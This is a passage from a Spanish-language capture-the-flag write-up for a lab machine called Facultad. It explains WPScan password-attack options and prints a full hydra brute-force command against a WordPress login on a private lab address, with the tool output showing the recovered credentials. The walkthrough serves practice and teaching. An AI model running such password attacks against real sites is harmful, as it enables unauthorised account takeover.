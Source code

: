 | Parámetros | Descripción |
|--------------------------|
| *--password-attack* | Para elegir un ataque suministrado en lugar de determinar uno automáticamente. Puede ser `wp-login, xmlrpc, xmlrpc-multicall`|
| *-t*       | Indica la cantidad de hilos a usar. |
| *-U*	     | Indica una lista de usuarios o un usuario. |
| *-P*	     | Indica un wordlist de contraseñas. |

<br>

Muy bien, obtuvimos la contraseña.

Ya lo hicimos con **WPScan**, ahora probemos con **hydra**:
```bash
hydra -l 'facultad' -P /usr/share/wordlists/rockyou.txt 192.168.100.60 http-post-form "/education/wp-login.php:log=^USER^&pwd=^PASS^:S=302"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-21 14:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.100.60:80/education/wp-login.php:log=^USER^&pwd=^PASS^:S=302
[80][http-post-form] host: 192.168.100.60   login: facultad   password: asdfghjkl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-21 14:50:57
```
Genial, obtuvimos de nuevo la contraseña.

Entra al login de **WordPress** en la ruta `/wp-login.php` o `/wp-admin` y utiliza las credenciales que tenemos para entrar:

<p align="center">
<img src="/assets/images/THL-writeup-facultad/Captura7.png">
</p>
